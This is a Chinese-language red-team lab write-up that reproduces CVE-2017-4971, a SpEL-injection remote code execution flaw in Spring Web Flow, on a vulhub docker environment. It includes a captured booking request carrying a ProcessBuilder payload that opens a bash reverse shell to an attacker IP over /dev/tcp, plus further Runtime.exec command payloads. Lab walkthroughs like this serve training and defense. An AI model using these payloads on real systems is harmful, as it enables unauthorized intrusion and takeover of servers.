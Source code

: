 ```yaml
---
title: 【Spring Web】框架远程代码执行（CVE-2017-4971）
date: 2025-09-08
categories:
  - 红队
image: images/53.webp
---
```

# 漏洞简介
Spring Web Flow是Spring的一个子项目 ， 主要目 的是解决跨越多个请求的、 用户与服务器之间的、有状态交互问题，提供了描述业务流程的抽象能力。
在其 2.4.x版本中， 如果我们控制了数据绑定时的field， 将导致一个SpEL表达式注入漏洞，从而造成任意命令执行。
# 影响版本
**Spring Web Flow 2.4.0 - 2.4.4**
## 触发漏洞需要的两个条件
```
1.MvcViewFactoryCreator对象的 useSpringBeanBinding参数需要设置为 false（默认值）

2.flow view对象中设置 BinderConfiguration对象为空
```
# 环境搭建
```
root@ubuntu:/mnt/vulhub/spring# cd CVE-2017-4971/
root@ubuntu:/mnt/vulhub/spring/CVE-2017-4971# docker-compose up -d
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250908153318.png)
# 复现过程
点击Login，可以看大账号/密码，这里我们随便选择一个进行登录。
```
keith/melbourne
erwin/leuven
jeremy/atlanta
scott/rochester
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250908153359.png)

访问id为1的酒店，点击”Book Hotel“预定按钮。
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250908154241.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250908154300.png)
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250908154313.png)
填写一些数据，点击Proceed按钮。
1234567912312312
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250908154410.png)

![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250908154432.png)
在点击`Confirm`的时候进行抓包，此处存在命令执行，可反弹shell
```
POST /hotels/booking?execution=e2s2 HTTP/1.1
Host: 192.168.197.140:8080
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:142.0) Gecko/20100101 Firefox/142.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 173
Origin: http://192.168.197.140:8080
Connection: keep-alive
Referer: http://192.168.197.140:8080/hotels/booking?execution=e2s2
Cookie: JSESSIONID=4652D2318569E57A87C35C86F4391EDD
Upgrade-Insecure-Requests: 1
Priority: u=0, i

_eventId_confirm=&_csrf=9285d191-3a38-4790-a4e0-8862b1bde6c6&_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.197.129/10086+0>%261")).start()=vulhub
```
反弹Shell代码：
```
&_(new+java.lang.ProcessBuilder("bash","-c","bash+-i+>%26+/dev/tcp/192.168.197.129/10086+0>%261")).start()=vulhub
```
![image.png](https://blogslimer.oss-cn-shanghai.aliyuncs.com/blog/20250908155847.png)
# EXP拓展
执行命令
```
&amp;_T(java.lang.Runtime).getRuntime().exec("touch /tmp/success")
或者
&amp;_(new+java.lang.ProcessBuilder("touch /tmp/success2")).start()=test
```